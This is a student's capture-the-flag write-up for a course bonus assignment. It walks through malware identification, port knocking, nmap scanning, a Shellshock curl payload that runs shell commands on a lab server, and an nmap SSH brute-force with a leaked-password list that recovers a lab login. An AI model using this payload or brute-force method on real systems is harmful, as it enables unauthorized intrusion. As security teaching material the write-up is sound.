



# Bonus Assignment report

---

[Lukáš Forst](https://forst.pw)

---


## Stage 1

```
<Grinch> Please provide your token
TroubledOlive
<Grinch> What is the name of the malware? (use all capital letters)
DARKVNC
<Grinch> What type of malware is it? (Choose on from Banking Trojan, Ransomware, RAT, Adware, CryptoMiner)
RAT
<Grinch> How many times did the victim computer connect to the C&C IP?
2
<Grinch> Was any malicious executable downloaded (Yes/No)?
No
```

The final virus name was [DarkVNC](https://reaqta.com/2017/11/short-journey-darkvnc/).

```
<Grinch> Saving you, is that what you think I was doing? Wrong-o. I merely noticed that you're improperly packaged, my dear.
<Grinch> Here is something you migt need later: 3232235903
Knock knock... Your VM might be handy.

Hint: MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=

<Grinch> This is the end of stage 1. You rock!
```


## Stage 2
Well... The hints were kind of cryptic. I must admit, that in the beginning I was confused. However, when programmer is confused, he just randomly puts things to the google and hopes for the best.

I tried the first hint - number `3232235903` - and I was suprised, that this is actually something. An IP address!



Perfect, now I have the IP address of the target computer - `192.168.1.127`. But what about the other hint? It seemed that this is a base64 and indeed the base64 conversion returned something that seemed valid.

``` bash
> echo "MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=" |  base64 -d
37 30 30 30 2c 38 30 30 30 2c 39 30 30 30 2c 31 30 30 30 30
```

Now, this sequence looks like hex code, right? The spaces, two numbers and letters... Definitely hex code. Here comes the very nice tool [CyberChef](https://gchq.github.io/CyberChef/) for pipelining the decryption and encryption.


Numbers sequence `7000,8000,9000,10000`. 

Well this was confusing... Fast googling did not help so I was stuck for some time and didn't know what this meant. So I went to follow the IP address hint and hoped something will eventually come up.

So I tried to scan the target machine with nmap.

```bash
sudo nmap -n -v -sS 192.168.1.127 -T3 -p-
```
The command basically returned the following ports `22`, `902`, `6667`, `8081`. `22` was SSH port, but more interesting was port `902` which was running an slightly older version of SSH. Maybe a lead? It was interesting that one machine was running two different versions of SSH - maybe multiple virtual machines on one IP? Or running VM inside VM? Docker? 

I didn't know, so I decided to let it sink in and started to investigate other ports.

### Hope?
Port 8081 was running a web page! That seemed as a lead to something so I tried `ncat` command
```bash
> ncat 192.168.1.127 8081
> GET /index.html HTTP/1.1
```
and got following `index.html`.
```html
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
    <html>
        <head>
            <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
            <title>Directory listing for /</title>
        </head>
        <body>
            <h1>Directory listing for /</h1>
            <hr>
            <ul>
                <li><a href="www.asdf.com/">www.asdf.com/</a></li>
            </ul>
            <hr>
        </body>
    </html>
```
So I started to investigate further and followed every link I found. Later on I had the whole web page downloaded - it had following structure.
```
.
├── index.html
└── www.asdf.com
    ├── 89asdf.gif
    ├── aboutasdf.html
    ├── asdf1b.gif
    ├── asdfdvorak.html
    ├── asdfemail.html
    ├── asdfgreen.html
    ├── asdfstory.html
    ├── index.html
    ├── sarah_beara_asdfsong.wav
    └── whatisasdf.html
```
Unfortunately, the files contained nothing useful - waste of time.

### A New Hope

I still had one port to spare - `6667`. The very same `ncat` as previously and let's go. I was amazed and disappointed by the result of the command.

Easter egg! Star Wars film - episode New Hope.
```
<  o  >                          A   N E W   H O P E                       
                                                                         
                                                                         
             I t  i s   a   p e r i o d   o f   c i v i l   w a r.       
                                                                         
             R e b e l    s p a c e s h i p s ,   s t r i k i n g        
                                                                         
             f r o m   a  h i d d e n   b a s e ,  h a v e  w o n        
                                                                         
             t h e i r   f i r s t  v i c t o r y   a g a i n s t        
                                                                         
             t h e   e v i l   G a l a c t i c   E m p i r e.            
                                                                         
<  o  >                                                                       
```
However... again, nothing useful for the assignment.

### Back on the beginning

I tried to step back and look at the message from Grinch one more time as I still didn't know what the numbers sequence was for. Also, the following part of the message was kind of weird as this was not a "knock knock joke" of any type and it wasn't even funny, so why is this here?
```
Knock knock... Your VM might be handy.
```
Could it possible be a hint? Let's try google once more. 


Apart from a lot of knock knock jokes, the first google page revealed interesting technique I didn't know about - port knocking. So... the numbers are ports and I'm supposed to knock on them!

### Knock Knock, anybody home?
I knocked using a very nice command [knock](http://manpages.ubuntu.com/manpages/xenial/man1/knock.1.html).
```bash
knock 192.168.1.127 7000:tcp 8000:tcp 9000:tcp 10000:tcp
```
And now what? The [ArchWiki](https://wiki.archlinux.org/index.php/Port_knocking) said that this technique is used for opening SSH ports, but the machine has the ports opened already. Just to be sure, I ran `nmap` once again.

```bash
sudo nmap -n -v -sS -sV 192.168.1.127 -T3 -p-
```
And now I got one more port - `8080` - to my collection! Wonderful!

### Exploiting the vulnerability
The subsequent `curl` returned following output:
```
This is a vulnerable web application for showcasing CVE 2014-6271, a.k.a. Shellshock.
```
Vulnerable application, very nice. I simply used the approach described on [exploit-db] (https://www.exploit-db.com/exploits/34766) to get in.

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'ls -al'" 192.168.1.127:8080/cgi-bin/stats
```
And voila! Winner winner chicken dinner! I was in.

The short exploration of machine showed a lot of files in the `/home/grinch` directory with our usernames -> so executing `cat /home/grinch/.forstluk.txt` on the Grinch's machine gave me the following output:
```
[a-zA-Z0-9]{3} symetric:
<my_ciphre here>
```

### Decrypting...
It was apparent that we are looking at the encrypted text. But which cipher was used? The first line seemed to be hint - so 3 letters, upper and lower cases and numbers... Again, let's google a bit - first result for key `symetric ciphers` led me to http://www.crypto-it.net/eng/symmetric/index.html with list of ciphers. Two candidates for the regex - RC4 and RC2. [Criptii](https://cryptii.com/) for the rescue!. 



```
Hello there! This is the end of stage 2!
There are many Elves on the shelf, but Grace is special. Instructions for the next stage are in home directory of this elf!
```

## Stage 3
No instructions... Perfect. The only lead is to search for the user `grace` or `Grace` as I didn't know whether to use upper or lower case. Simple search executed on target machine via the previously mentioned vulnerability didn't show anything.
```bash
find . -user grace
```

At this point I was desperate as I ran out of ideas, also my friends doing the very same assignment had ho ideas as well. That was even worse.

### Unexpected rescue!
However, teachers must have noticed that we weren't progressing and sent help!.

```
In case you are working on the later stages of the bonus assignment and you feel stuck here is a couple of hints for you:

- When in doubts, try to roll back and see what have you discovered during the previous stages.
- Sometimes you have to use force to get things going. If that is not enough, use more force.
- When running scripts with nmap, be sure it doesn't stop prematurely. 'unpwdb.timelimit' might be useful for that-Choose your words carefully. If used properly, you shouldn't need more than 20000 of them.-Speaking of which, take hints from the master lyrist here: https://www.youtube.com/watch?v=y3Ca3c6J9N4

See you on Thursday.

Ondrej
```

What the mail was basically saying is this:


*(it is even funnier as my name is Lukas)*

### I am one with the force

`Use force` - say no more fam - definitely some kind of brute force attack. We had a user -> `Grace` or `grace` and the target machine `192.168.1.127`. Now the tricky part was, that there were two running SSHs - `22` and `902`. I decided to try both and to start with `22` and then move to `902`.

I also knew, that it is enough to use only 20 000 passwords - you know, because Ondra said that. But from which password database? And again, Google for the rescue.


20k passwords from [RockYou](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-60.txt) database! Let's go then.

```bash
sudo nmap -v -n -sS -sV 192.168.1.127 -p 22 --script ssh-brute --script-args userdb=users,passdb=20k.txt,unpwdb.timelimit=0,brute.firstonly=true
```

And after 3 hours...
```
Completed NSE at 20:28, 10904.94s elapsed
Initiating NSE at 20:28
Completed NSE at 20:28, 0.00s elapsed
Nmap scan report for 192.168.1.127
Host is up (-0.17s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-brute: 
|   Accounts: 
|     grace:donaldduck - Valid credentials
|_  Statistics: Performed 22081 guesses in 10904 seconds, average tps: 1.8
MAC Address: 08:00:27:06:8F:03 (Oracle VirtualBox virtual NIC)
```

### Finaly!

Let's try!
```bash
> ssh grace@192.168.1.127
donaldduck
```
and....


The deserved welcome message!
```
*****************************************************************
<Grinch> Congratulations! This is the end of stage 3!		*		
								*
<Grinch> Look for presents to get instructions for stage 4!	*
*****************************************************************
```
Uff... not gonna lie, that was a tough one.

## Stage 4
This time, the instructions were easy to find.
```
grace@grinchLair:~$ cat Stocking
For Final stage (Stage 4) you should desing and implement a C&C bot using the github repo/github gist(https://gist.github.com/).
Design your bot such that it can perform following tasks in the target machine:

	* List files in specified directory
	* List active users
	* List running processes
	* Action of your own choice (Describe in the report)

And report results back to the control server.

Good luck and Merry Xmas! 
```

Unfortunately due to time pressure, I was unable to finish my botnet and therefore, sadly, no stage 4 for me.

# Conclusion


